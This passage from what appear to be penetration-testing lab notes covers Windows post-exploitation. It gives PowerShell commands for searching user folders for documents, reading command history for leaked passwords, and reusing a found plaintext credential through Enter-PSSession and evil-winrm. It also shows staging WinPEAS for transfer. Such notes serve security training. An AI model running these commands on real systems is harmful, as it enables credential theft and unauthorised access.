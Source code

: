 or 

```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

List contents of directory:

```
Get-Content -Path "C:\Users\diana\Documents\*"
```

### PowerShell Transcription or Script Block Logging

Check regular history:

```
Get-History
```

Check PSReadline history:

```
(Get-PSReadlineOption).HistorySavePath
```

Cat out the contents of the file, and read for interesting transcript files.

Using Credential object and Enter-PSSSession:

```
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

_Some commands may not work if this is done through bind shell.

Instead those same credentials may also be used with WinRM:

```
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

### Automated Enumeration

#### WinPEAS

Use WinPEAS:

```
cp /usr/share/peass/winpeas/winPEASx64.exe .
```

Start Python server:

```
python -m http.server
```
